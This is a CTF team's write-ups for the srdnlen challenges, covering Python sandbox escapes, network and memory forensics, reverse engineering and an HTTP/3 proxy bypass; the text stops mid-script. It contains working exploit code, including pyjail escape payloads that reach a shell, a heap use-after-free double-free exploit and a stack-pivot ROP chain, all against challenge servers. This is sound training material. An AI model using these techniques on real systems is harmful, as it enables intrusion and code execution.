




# TRX Writeups


# MISC

## \[MISC\] Another Impossible Escape

This challenge is a pyjail with the following limitations:
 - We can't use the following characters: 
 ```
 mwfqyhpvzrxk @`\'-+\"*
 ```
 - We can't use the following words:
 `input, self, os, try_escape, eval, breakpoint, flag, system, sys, escape_plan, exec`
 - We can only use ASCII characters
 - Builtins are removed
 - Also, some characters have a limited usage
    - We can only use `)` once
    - We can only use `.` once
    - We can only use `=` once
    - We can only use `_` four times

A few important things:
 - We can execute a maximum of 7 payloads, with a limit of 60 characters each.
 - The variables defined by us will persist between every payload execution.
 - The flag is in a variable called `FLAG`, which is deleted before executing our payloads and the string will be replaced with `srdnlen{REDATTO}`

Since we can't use certain characters, [this script](LINK HERE!!!!!!!!!!!!!!!!!!!) created two years ago by me, could come in handy.

My idea consists in grabbing `eval` and `input` so I can execute arbitrary code. Since there's a character blacklist I had to build the payload while minding the constraints:

```py
(builtins:={}.__class__.__subclasses__()[2].total.__builtins__,lst:=[].__class__(builtins),input:=builtins[lst[28]],eval:=builtins[lst[20]],eval(input(),builtins))
# Inside eval: __import__("code").interact()
```

Now that we have an interactive console, we can restore the flag by dumping all the objects tracked by the python garbage collector:

```py
__import__("gc").get_objects()
```

### Final exploit

```py
[a:={}.__class__]
[b:=a.__subclasses__]
[b:=b()[2].total]
[b:=b.__builtins__]
[a:=[].__class__(b)]
[c:=[b[a[20]],b[a[28]]()]]
__import__("code").interact()
[d:=c[0](c[1],b)]

__import__("gc").get_objects()
```

## \[MISC\] SSPJ

This is a simple pyjail. We can't use `(`, `[`, `{` and also `.`, `=` so it's basically impossible to pollute attributes of `help`, `license`, etc.

Note that the builtins are not removed so we can import modules. Also, there's a character blacklist which is easily bypassable by sending the payload in uppercase.

The only thing that we can pollute is the `__main__` module. This is possible because when a module is imported, it can be accessed in the `__main__` one. So if you do something like:

```py
from os import system
```

then the `system` will be accessible from `__main__.system`. We can abuse this by renaming `system` to `__getattr__` so if we try to import something from the main module, it will call our function.

Final exploit:

```py
FROM OS IMPORT SYSTEM; FROM __MAIN__ IMPORT SH
```


## \[MISC\] DFIR 2 - MalNet

### Solution:
The challenge is a series of forensics questions about the provided .pcap, here's how i came up with the answer to every question.

    1) Bruteforced it
    2) Easily checked on wireshark
    3) Bruteforced it
    4) We can filter the http request packets of the objects in export objects -> http
    5) We can find the first hash by dumping the pieceshash file
    6) Bruteforced it
    7) The question was very poorly-posed, but the answer is the HashOfHashes hash in pieceshash
    8) Bruteforced it
    9) Bruteforced it
    10) Easily checked on wireshark
    11) We can filter the http request packets of the objects in export objects -> http
    12) Bruteforced by dumping all the files and trying every hash, the correct file is dfeb2940-49d3-4f29-8fd8-d984a787dc6e%3fP1=1736222766&P2=404&P3=2&P4=H1jtSvldNZpuTpd5fP9uKkWsRR%2f5pXzccLVud6a0mJoxofqoKB34dNqF4qXGEwhkbPhjKQoon413psf1XzNktA%3d%3d


Solve script:
```py
from pwn import *

r = remote("dfir2.challs.srdnlen.it", 1985)

r.sendline(b"2137")
r.sendline(b"TCP 40")
r.sendline(b"29")
r.sendline(b"/filestreamingservice/files/7d9cd93c-1d5e-449b-9ad7-f1e8d6b90509?P1=1736543287&P2=404&P3=2&P4=A4bbVZMC2rLzoHuEoqkGyn%2bfjFNZYtKNVXsPbIbY5Amz3v4r%2bQitB5Uc%2fXCKOEvShr8HAJPOsSVdpx2t0DGgKQ%3d%3d")
r.sendline(b"b56b0ee4af8f4395455ed4f83b2d25498444c939fcf77d49ec9ec83c68983e52")
r.sendline(b"2")
r.sendline(b"26f6728a7327ecb881a8d7989b2ec93debbc2a7e1c844ce4b2a6549f00763e0e")
r.sendline(b"5")
r.sendline(b"290")
r.sendline(b"HTTP 8")
r.sendline(b"/filestreamingservice/files/dfeb2940-49d3-4f29-8fd8-d984a787dc6e?P1=1736222766&P2=404&P3=2&P4=H1jtSvldNZpuTpd5fP9uKkWsRR%2f5pXzccLVud6a0mJoxofqoKB34dNqF4qXGEwhkbPhjKQoon413psf1XzNktA%3d%3d")
r.sendline(b"364dfe0f3c1ad2df13e7629e2a7188fae3881ddb83a46c1170112d8d3b5a73de")

r.interactive()
```

Flag: ```srdnlen{DFIR2:network_analysis_R34L_malware}```


## \[MISC\] DFIR 3 - RAMsomwhere

The challenge is a series of forensics questions about the provided RAM dump, here's how i found the answers:

1) Read the process tree with MemProcFS and search the process mentioned in the .evtx
2) Guessed it at 4 AM
3) Extracted all the Chrome extensions from the .pcap and tried all of them. Wasn't really able to read the extension files in AppData
4) I immediately found the processes "MEMYUoYU.exe" and "ceIcEMkw.exe" and their PIDs but "1236, 6444" wasn't accepted and I tried to write them in reverse order only hours later (wtf!?!?!?!?!?!?!?)
5) MemProcFS
6) MemProcFS
7) Volatility process tree
8) Bruteforced it
9) Looked at paths in Strings
10) Read ransom text in Strings
11) Strings
12) Read ransom text in Hex editor
13) Read ransom text in Hex editor
14) Read ransom text in Hex editor
15) Bruteforced valid bitcoin addresses in Strings
16) MemProcFS
17) MemProcFS

Solve script
```py
from pwn import *

r = remote("dfir3.challs.srdnlen.it", 1986)

r.sendline(b"2240")
r.sendline(b"127.0.0.1")
r.sendline(b"AutofillCore")
r.sendline(b"6444, 1236")
r.sendline(b"C:\Users\User\kOIUsMQU\MEMYUoYU.exe")
r.sendline(b"C:\ProgramData\hwQkYMwk\ceIcEMkw.exe")
r.sendline(b"4680")
r.sendline(b"288")
r.sendline(b"ZcgU.txt")
r.sendline(b"bitcoin")
r.sendline(b"GET /maps/api/staticmap?center=32.33597550,-111.04410110&zoom=14")
r.sendline(b"unauthorized or pirated software")
r.sendline(b"$250,000")
r.sendline(b"reddit")
r.sendline(b"1yQBzAaZx7FojqMmTtHPTfZ42T4t6Q1Uh")
r.sendline(b"ch2")
r.sendline(b"0002bdf0923262600d3ef66d1ec6b2396a434e6f7626a9d70241a5663ee2f736.exe")

r.interactive()
```


## \[MISC\] DFIR 4 - MalThrInt

From the previous challenge we need to get a file called `0002bdf0923262600d3ef66d1ec6b2396a434e6f7626a9d70241a5663ee2f736.exe` which can be found by running 

```py
strings -e l capture_ram.elf | grep "ch2"
```

Then, go to https://www.virustotal.com/gui/file/0002bdf0923262600d3ef66d1ec6b2396a434e6f7626a9d70241a5663ee2f736 and answer the questions. They're pretty easy so just copy and paste what they're asking.


## \[MISC\] Disk Operating System

As you may possibly know this is a MS-DOS 4.00 disk containing an interactive graphic shell.
After checking folders for weird files with recent dates, I decided to take a look at the original MS-DOS 4.00 disk, easily downloadable on WinWorldPC, and check for backdoored files.
I just opened the disk with 7-Zip and extracted files to a folder without installation.
Using a diff tool I found that MORE.COM in the challenge was significantly smaller.

I initially tried opening it in IDA 9, but I didn't want to spend much time understanding what it did. I looked at this:

and guessed that it was counting down something.

I opened MORE.COM, pressed ENTER 17 times and found that after each '--MORE--' it printed a character of the flag, like '--MORE--s'.

Very very nice. I love Sardinia


# PWN

## \[PWN\] Kinderheim 511

### Solution:
The binary is a classic create/delete/view challenge without the option to edit, it's possible to malloc up to 16 chunks at a time, however the first chunk (idx 0) is occupied by the flag.

There are a number of vulnerabilities but i'll only list the one relevant for exploitation:

1) UAF due to the `erase_memory` not clearing the freed pointer in case of non-contiguous free-ing.

Thanks to this we can perform a standard [`fastbin_dup`](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/fastbin_dup.c) attack.

The first step is leaking an heap address as safe-linking is active, we can view a freed chunk to get a mangled next pointer which we can decrypt into a valid heap address (there are many ways but i literally copy-pasted [this](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/decrypt_safe_linking.c))

Once we leak the heap we need to fill the tcache to double-free into the fastbins, as they dont have as strict checks as the tcache.

After corrupting the free-list we basically have arbitrary-write, so i chose to overwrite the chunk on the heap that contains the array of pointers with the address of the flag chunk, we can then get the flag by simply viewing the chunk.

Solve script: 
```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

exe = ELF("./k511.elf_patched")

context.binary = exe

REMOTE_NC_CMD    = "nc k511.challs.srdnlen.it 1660"    # `nc <host> <port>`

bstr = lambda x: str(x).encode()
ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))

GDB_SCRIPT = """
set follow-fork-mode parent
set follow-exec-mode same
b recall_memory
b erase_memory
c
c
c
c
"""

def conn():
    if args.LOCAL:
        return process([exe.path])
    
    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT)
    
    return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))

def main():
    import os
    r = conn()

    def malloc(str):
        r.sendline(b"1")
        r.send(str) 

    def view(idx):
        r.sendline(b"2")
        r.sendline(bstr(idx))
    
    def free(idx):
        r.sendline(b"3")
        r.sendline(bstr(idx))

    for i in range(13):
        malloc(b"PAD\n")
    
    free(1)
    free(2)
    malloc(b"PAD\n")
    free(2)
    view(1)
    r.recvuntil(b"Reading memory...\n	\"")
    leak = u64(r.recv(6)+b"\0\0")
    log.info(hex(leak))
    
    #input the value in (https://github.com/shellphish/how2heap/blob/master/glibc_2.35/decrypt_safe_linking.c) and input the decrypted value, im lazy :)
    leak = int(input(), 16) - 0x70
    log.info(hex(leak))
    
    malloc(b"A\n")
    
    #filling tcache
    for i in range(7):
        free(13-i)
    free(5)
    #double-free
    free(6)
    free(4)
    free(6)

    #overwriting next-ptr
    for i in range(9):
        malloc(p64(leak^(leak>>12))+b"\n") #ptr_array
    malloc(b"A\n")
    malloc(p64(leak+0x20)+b"\n") #flag chunk
    view(14)
    r.interactive()

if __name__ == "__main__":
    main()
```

Flag: ```srdnlen{my_heap_has_already_grown_this_large_1994ab0a77f8355a}```


## \[PWN\] Snowstorm

### Challenge overview
The challenge is a binary that opens the flag file and dumps it into /dev/null, and then let the user write on stack a validated-size of data.

The challenge is compiled with no PIE, no canary and partial RELRO (the latter irrelevant for the exploitation process).

### Vulnerability
The size validation happens by hand-checking the digits written, and returns `strtol(buf, 0, 0)`. The maximum size is 40, but sending a size of `0x40` the check passes, and given that the base is 0, strtol will try to guess the base: the `0x` at the beginning will force an hexadecimal conversion, giving a 24 bytes BOF on stack.

### Exploitation
Exploit overview:
stack pivoting - reopen flag file - sendfile

**Stack pivoting**
Through the BOF we can overwrite the saved RBP and the return address: pivot RBP to .bss and return to `call ask_length` this way we can write a new chain. We managed to chang RBP but not RSP, so we'll jump to a `leave; ret;` gadget, this way we can arbitrarly change RSP*.

**Reopen flag.txt**
The return address for the `leave; ret` gadget will be again `call ask_length` + `check_open+0x13`. Given that the read overwrites the stack frame of the `read` libc function, we can directly hijack that, without using the `leave; ret` function epilogue, this way we can control the next jump once the `check_open` function finishes: jump again to `call ask_length`.
`check_open+0x13` fetches RDI and RSI from the stack, which we can control, this way we can open an arbitrary file.

**Sendfile**
With the new `ask_length` we write another chain, so we jump (by overwriting again the `read` libc function stack frame) directly to `print_flag+0x26`, which fetches RDI and RSI from the stack, so we can call `sendfile` with arbitrary file descriptors: 5 for flag.txt and 1 for stdout.


*It's important to have RSP smaller than RBP, otherwise `open` will build up on the stack overwriting the chain. We handle this situation when pivoting RSP.

### Full exploit
```
#!/usr/bin/env python3
from  pwn  import  *
  
exe  =  ELF("./snowstorm_patched")
libc  =  ELF("./libc.so.6")
ld  =  ELF("./ld-2.39.so")

context.binary  =  exe
context.terminal  = ["pwntools-terminal"]

DOCKER_PORT  =  1337
REMOTE_NC_CMD  =  "nc snowstorm.challs.srdnlen.it 1089"  # `nc <host> <port>`

from  pwnlib.tubes.tube  import  tube
tube.s =  tube.send
tube.sa =  tube.sendafter
tube.sl =  tube.sendline
tube.sla =  tube.sendlineafter
tube.r =  tube.recv
tube.ru =  tube.recvuntil
tube.rl =  tube.recvline
tube.rls =  tube.recvlines

aleak  =  lambda  elfname, addr: log.info(f"{elfname} @ 0x{addr:x}") # addr leak (bases)
vleak  =  lambda  valname, val: log.info(f"{valname}: 0x{val:x}") # val leak (canary)
bstr  =  lambda  x: str(x).encode()
ELF.binsh =  lambda  self: next(self.search(b"/bin/sh\0"))
chunks  =  lambda  data, step: [data[i:i+step] for  i  in  range(0, len(data), step)]

GDB_SCRIPT  =  """
"""

def  conn():
	if  args.LOCAL:
		return  process([exe.path])
	if  args.GDB:
		return  gdb.debug([exe.path], gdbscript=GDB_SCRIPT)
	if  args.DOCKER:
		return  remote("localhost", DOCKER_PORT)
	return  remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))

def  main():
	io  =  conn()
	context.log_level  =  "debug"

	io.sa(b": ", b"0x40")
	io.sa(b"> ", flat({0x30: 0x404f30, 0x38: 0x4015bd}))

	io.sa(b": ", b"0x40")
	io.sa(b"> ", flat({0: 0x404f30, 8: 0x4015bd, 0x30: 0x404f00, 0x38: 0x401604}))

	io.sa(b": ", b"0x40")
	io.sa(b"> ", flat({8: 0x4012c9, 0x14: pack(0, 32), 0x18: 0x4021f2, 0x30: 0x404f30, 0x38: 0x4015bd}))

	io.sa(b": ", b"0x40")
	io.sa(b"> ", flat({0x1c: pack(5, 32), 0x2f: pack(1, 8), 0x30: 0x404f30, 0x38: 0x40134c}))

	# word -14 flag.txt
	# byte -1 stdout

	print("\x1b[1;17;34m"  +  "------------------------------------- interactive -------------------------------------"  +  "\x1b[0m")
	context.log_level  =  "info"
	io.interactive()

if  __name__  ==  "__main__":
	main()
```


# REV

## \[REV\] Anodic Music

As always we can start by decompiling the main function:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char *dialogue; // rax
  int i; // [rsp+Ch] [rbp-64h]
  void *v6; // [rsp+10h] [rbp-60h]
  s_bank *bank; // [rsp+18h] [rbp-58h]
  char input[68]; // [rsp+20h] [rbp-50h] BYREF
  unsigned __int64 canary; // [rsp+68h] [rbp-8h]

  canary = __readfsqword(0x28u);
  memset(input, 0, 62);
  v6 = malloc(0x10uLL);
  bank = load_bank();
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  for ( i = 0; i <= 61; ++i )
  {
    dialogue = get_dialogue();
    printf("%s", dialogue);
    input[i] = getc(stdin);
    getc(stdin);
    md5String(input, v6);
    if ( (unsigned __int8)lookup_bank(v6, bank) )
    {
      puts("There has to be some way to talk to this person, you just haven't found it yet.");
      return -1;
    }
  }
  printf("Hey it looks like you have input the right flag. Why are you still here?");
  return 0;
}
```

We can now analyze the following not known functions, starting from `load_bank`:

```c
_QWORD *load_bank()
{
  _QWORD *result; // rax
  FILE *stream; // [rsp+0h] [rbp-20h]
  __int64 size; // [rsp+8h] [rbp-18h]
  void *bank; // [rsp+10h] [rbp-10h]

  stream = fopen("hardcore.bnk", "rb");
  fseek(stream, SEEK_SET, SEEK_END);
  size = ftell(stream);
  rewind(stream);
  bank = malloc(size);
  fread(bank, size, 1uLL, stream);
  fclose(stream);
  result = malloc(0x10uLL);
  *result = size;
  result[1] = bank;
  return result;
}
```

As we can see, it is loading the other file that was given to us and loading is what it seems a struct that we can define as:

```c
struct s_bank // sizeof=0x10
{
    __int64 size;
    char *bank;
};
```

Now we can continue by looking into `get_dialogue`, which is pretty useless:

```c
char *get_dialogue()
{
  char ptr; // [rsp+Fh] [rbp-11h] BYREF
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  stream = fopen("/dev/urandom", "rb");
  fread(&ptr, 1uLL, 1uLL, stream);
  return (&dialogue)[ptr & 0xF];
}
```

Then we have `md5String`:

```c
unsigned __int64 __fastcall md5String(const char *input, char *out)
{
  size_t size; // rax
  __int64 v3; // rdx
  MD5Context ctx; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 canary; // [rsp+78h] [rbp-8h]

  canary = __readfsqword(0x28u);
  md5Init((__int64)&ctx);
  size = strlen(input);
  md5Update(&ctx, input, size);
  md5Finalize(&ctx);
  v3 = *(_QWORD *)&ctx.digest[8];
  *(_QWORD *)out = *(_QWORD *)ctx.digest;
  *((_QWORD *)out + 1) = v3;
  return canary - __readfsqword(0x28u);
}
```

Which is doing an md5sum with a library like [https://github.com/Zunawe/md5-c](https://github.com/Zunawe/md5-c), where we can extract the context type for better reversing:

```c
struct MD5Context // sizeof=0x68
{                                       // XREF: md5String/r
    uint64_t size;
    uint32_t buffer[4];
    uint8_t input[64];
    uint8_t digest[16];                 // XREF: md5String+5D/r
                                        // md5String+61/r
};
```

And lastly we have `lookup_bank` which is checking if the hash is into the given bank of hashes

```c
__int64 __fastcall lookup_bank(const void *a1, s_bank *a2)
{
  __int64 i; // [rsp+18h] [rbp-8h]

  for ( i = 0LL; i < a2->size / 16; ++i )
  {
    if ( !memcmp(a1, &a2->bank[16 * i], 0x10uLL) )
      return 1LL;
  }
  return 0LL;
}
```

So, after reversing all the functions we can say that the main, after loading the bank into memory, i doing the hash of the current char that is read from the user and checking if into the bank, so we can think of try manualy some characters knowing that the flag format is `srdnlen{`, but after some tries we can see that also other characters are valid (like *t* is valid, but the first char should be *s*), so we are analyzing a **trie** like data structure that we can explore with a **dfs**:

```py
from string import printable
from hashlib import md5

with open('hardcore.bnk', 'rb') as f:
	data = f.read()

hashes = [data[i*16:(i+1)*16] for i in range(len(data)//16)]

flag = 'srdnlen{'

def dfs(flag):
	if len(flag) == 63:
		exit(0)

	for c in printable[:-6]:
		tmp = flag + c
		digest = md5(tmp.encode()).digest()
		if digest not in hashes:
			print(tmp)
			dfs(tmp)


dfs(flag)
```

After running the whole script we get the flag: `srdnlen{Mr_Evrart_is_helping_me_find_my_flag_af04993a13b8eecd}`

## \[REV\] It's not what it seems

At first glance the challenge seems pretty standard, a flag checker, so after opening the binary with IDA, the following main function is showed:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v5; // rax
  unsigned int v6; // eax
  int v7; // [rsp+Ch] [rbp-874h] BYREF
  _BYTE v8[1024]; // [rsp+10h] [rbp-870h] BYREF
  __int64 v9; // [rsp+410h] [rbp-470h]
  __int64 v10; // [rsp+418h] [rbp-468h]
  __int64 v11; // [rsp+420h] [rbp-460h]
  _QWORD v12[3]; // [rsp+428h] [rbp-458h]
  char s[1024]; // [rsp+440h] [rbp-440h] BYREF
  _BYTE v14[16]; // [rsp+840h] [rbp-40h] BYREF
  _BYTE v15[32]; // [rsp+850h] [rbp-30h] BYREF
  __int64 v16; // [rsp+870h] [rbp-10h]
  int v17; // [rsp+87Ch] [rbp-4h]

  if ( (unsigned int)RAND_bytes(v15, 32LL, envp) )
  {
    if ( (unsigned int)RAND_bytes(v14, 16LL, v3) )
    {
      printf("FLAG: ");
      fgets(s, 1024, _bss_start);
      s[strcspn(s, "\n")] = 0;
      v9 = 0x3B2E252C2E243233LL;
      v10 = 0x32341F327336732ELL;
      v11 = 0x1F7328141F347535LL;
      v12[0] = 0x2E35261F2E71742DLL;
      *(_QWORD *)((char *)v12 + 6) = 0x3D2E707134232E35LL;
      v17 = 0;
      v16 = EVP_CIPHER_CTX_new();
      if ( v16 )
      {
        v5 = EVP_aes_256_cbc();
        if ( (unsigned int)EVP_EncryptInit_ex(v16, v5, 0LL, v15, v14) == 1 )
        {
          v7 = 0;
          v6 = strlen(s);
          if ( (unsigned int)EVP_EncryptUpdate(v16, v8, &v7, s, v6) == 1 )
          {
            v17 += v7;
            if ( (unsigned int)EVP_EncryptFinal_ex(v16, &v8[v7], &v7) == 1 )
            {
              v17 += v7;
              EVP_CIPHER_CTX_free(v16);
              puts("Nope!");
              return 0;
            }
            else
            {
              fwrite("Error finalizing encryption.\n", 1uLL, 0x1DuLL, stderr);
              EVP_CIPHER_CTX_free(v16);
              return 1;
            }
          }
          else
          {
            fwrite("Error during encryption.\n", 1uLL, 0x19uLL, stderr);
            EVP_CIPHER_CTX_free(v16);
            return 1;
          }
        }
        else
        {
          fwrite("Error initializing encryption.\n", 1uLL, 0x1FuLL, stderr);
          EVP_CIPHER_CTX_free(v16);
          return 1;
        }
      }
      else
      {
        fwrite("Error creating context.\n", 1uLL, 0x18uLL, stderr);
        return 1;
      }
    }
    else
    {
      fwrite("Error generating random IV.\n", 1uLL, 0x1CuLL, stderr);
      return 1;
    }
  }
  else
  {
    fwrite("Error generating random key.\n", 1uLL, 0x1DuLL, stderr);
    return 1;
  }
}
```

This is really a strange function, because, there is no flag check, so the first thounght is to check the **.init_array** section for global constructors, but it ends up without functions.
The next step is to set a breakpoint on the `EVP_EncryptFinal_ex` function call to see what is happening. But this breakpoint is never being triggered, so we know that something strange is happening, and after a quick realization we can find that the _start function is not the standard one:

```c
void __noreturn start()
{
  signed __int64 v0; // rax
  const char **v1; // rdx
  const char *v2; // rsi
  __int64 v3; // rcx
  _BYTE *key; // rdi
  __int64 v5; // rax
  signed __int64 v6; // rax
  signed __int64 v7; // rax
  __int64 buf; // [rsp+0h] [rbp-8h] BYREF

  v0 = sys_mprotect((unsigned __int64)main & 0xFFFFFFFFFFFFF000LL, 0x1000uLL, 7uLL);
  v2 = (const char *)main;
  v3 = 342LL;
  key = &keys;
  do
  {
    *v2++ ^= *key++;
    --v3;
  }
  while ( v3 );
  LODWORD(v5) = main((int)key, (const char **)v2, v1);
  if ( v5 )
  {
    buf = '!seY';
    v6 = sys_write(1u, (const char *)&buf, 4uLL);
  }
  v7 = sys_exit(0);
}
```

As what we can see by the decopiled code of IDA, the start is *decrypting* the main, so we can set a breakpoint on the **main** function call to see it decrypted:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *v4; // rdi
  _BYTE *i; // rsi
  _QWORD v6[3]; // [rsp+410h] [rbp-470h] BYREF
  _QWORD v7[3]; // [rsp+428h] [rbp-458h]
  char in[1024]; // [rsp+440h] [rbp-440h] BYREF
  _BYTE iv[16]; // [rsp+840h] [rbp-40h] BYREF
  _BYTE key[32]; // [rsp+850h] [rbp-30h] BYREF

  if ( (unsigned int)RAND_bytes(key, 32LL) )
  {
    if ( (unsigned int)RAND_bytes(iv, 16LL) )
    {
      printf("FLAG: ");
      fgets(in, 1024, _bss_start);
      v4 = in;
      in[strcspn(in, "\n")] = 0;
      v6[0] = 0x3B2E252C2E243233LL;
      v6[1] = 0x32341F327336732ELL;
      v6[2] = 0x1F7328141F347535LL;
      v7[0] = 0x2E35261F2E71742DLL;
      result = 0x34232E35;
      *(_QWORD *)((char *)v7 + 6) = 0x3D2E707134232E35LL;
      for ( i = v6; ; ++i )
      {
        LOBYTE(result) = *i;
        if ( (*i ^ (unsigned __int8)*v4) != 64 )
          break;
        ++v4;
        if ( (_BYTE)result == 61 )
          return result;
      }
      puts("Nope!");
      return 0;
    }
    else
    {
      fwrite("Error generating random IV.\n", 1uLL, 0x1CuLL, stderr);
      return 1;
    }
  }
  else
  {
    fwrite("Error generating random key.\n", 1uLL, 0x1DuLL, stderr);
    return 1;
  }
}
```

As we can see, the decrypted function is actually checking the flag by xorring the strange bytes that we saw earlier with the input to get **64** (0x40), so we can reverse he operation and flag:

```py
from pwn import xor
from Crypto.Util.number import long_to_bytes

flag = [
	0x3B2E252C2E243233,
	0x32341F327336732E,
	0x1F7328141F347535,
	0x2E35261F2E71742D,
	0x3D2E707134232E35,
]

flag = b''.join([long_to_bytes(i) for i in flag[::-1]])

print(xor(flag, 0x40)[::-1])
```

this takes out the following flag: `srdnlen{n3v3r_tru5t_Th3_m41n_fununct10n}` which is wrong, but we can fix it by removing the extra **un** in **fununct10n** to get the real flag `srdnlen{n3v3r_tru5t_Th3_m41n_funct10n}`

## \[REV\] UnityOs

As a good revver does, we start by looking for useful strings or better, a plain text flags.
we start with a big grep, to check for the flag format:
```sh
$ grep -R srdnlen{
Binary file UnityOs_Linux/Unity_Os_Data/level3 matches
Binary file UnityOs_Windows/UnityOS_Data/level3 matches
```

As we can see, we found something in the level3 of the game, so we can grep it out with strings:

```sh
$ strings UnityOs_Linux/Unity_Os_Data/level3 | grep srdnlen{
srdnlen{yUo_8RoK3_Th3_S1muLaT1oN}
```

And here we get the flag: `srdnlen{yUo_8RoK3_Th3_S1muLaT1oN}`


# WEB

## \[WEB\] Average HTTP/3 Enjoyer

As the name suggests, this is a challenge related to HTTP/3.
We're given the source code and we can see that there's a proxy with a flask server behind.
We can get the flag by visiting `/flag`. But there's a catch: the proxy will block the request if `/flag` is found in the path.

To interact with this challenge, we can use the `aioquic` library, which provides a simple script to send request to a server which supports HTTP/3. To retrieve the response from the server, we need to modify that script (inside the perform_http_request function):

```py
...
    for http_event in http_events:
        if isinstance(http_event, DataReceived):
            octets += len(http_event.data)
    logger.info(
        "Response received for %s %s : %d bytes in %.1f s (%.3f Mbps)"
        % (method, urlparse(url).path, octets, elapsed, octets * 8 / elapsed / 1000000)
    )

    import io
    f = io.BytesIO()

    write_response(
        http_events=http_events, include=include, output_file=f
    )

    f.seek(0)
    print(bytes(f.read()).decode())
...
```

Now, let's modify the `:path` value and set it to `flag`:

```py
async def _request(self, request: HttpRequest) -> Deque[H3Event]:
    stream_id = self._quic.get_next_available_stream_id()
    print("SENDING REQUEST", request.url.full_path.encode())
    self._http.send_headers(
        stream_id=stream_id,
        headers=[
            (b":method", request.method.encode()),
            (b":scheme", request.url.scheme.encode()),
            (b":authority", request.url.authority.encode()),
            (b":path", b"flag"),
